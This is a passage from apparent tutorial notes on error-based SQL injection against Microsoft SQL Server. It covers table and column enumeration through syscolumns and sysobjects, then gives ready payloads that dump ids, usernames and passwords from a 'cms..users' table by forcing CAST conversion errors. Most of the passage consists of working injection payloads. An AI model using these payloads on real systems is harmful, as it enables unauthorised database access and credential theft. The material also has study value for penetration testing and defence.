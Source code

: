 If a database contains three tables:
```	
 HR
Customers
Products
```

known table list will:
```
Be empty in the first payload. ...name NOT IN (' ') will work
Contain 'HR' at the second step
Contain 'HR', 'Customer', 'Products' at the last step
```

- After retrieving the tables of a database, its also possible to recover the columns of each table. This is the schema of the database and we can retrieve it by using the following payload template:

   → 99999 or 1 in (SELECT TOP 1 CAST (<db name>..syscolumns.name as varchar(4096) FROM <db name>..syscolumns,<db name>..sysobjects WHERE <db name>..syscolumns.id=<db name>..sysobjects.id AND <db name>..sysobjects.name=<table name> AND <db name>..syscolumns.name NOT IN (<known column list>));

### Dumping Data
- After enumerating the databases and their schemas, we can proceed to the data dumping phase.

You can dump data with the same technique we have seen For schema enumeration:
```
99999 or 1 in (SELECT TOP 1 CAST (<column name> as varchar(4096) FROM <dbname>..<table name> WHERE <column name> NOT IN (<retrieved data list>)); -- -
```

#### id
To retrieve the id values, you can use the following payload:
```
9999 OR 1 IN (SELECT TOP 1 CAST(id as varchar) %2bchar(64) FROM cms..users WHERE id NOT IN (' '); -- -
```

// %2bchar = **+@**
// This ensures that the selected id has data type varchar thus making the cast error possible

Then we can proceed with the usual method. We filter out the id we already have:
```
9999 OR 1 IN (SELECT TOP 1 CAST(id as varchar) %2bchar(64) FROM cms..users WHERE id NOT IN ('1'); -- -
```

#### usernames
After extracting all the ids, we can use this information to extract all the username:
```
9999 OR 1 IN (SELECT TOP 1 CAST(username as varchar) FROM cms..users WHERE id =1; -- -
```

// No string concatenation is needed here, because username data type is varchar. Using the ids, let us correlate usernames and passwords by retrieving the password of a specific username.

#### passwords
We can retrieve password by using the same payload:
```
9999 OR 1 IN (SELECT TOP 1 CAST(password as varchar) FROM cms..users WHERE id=1; -- -
```
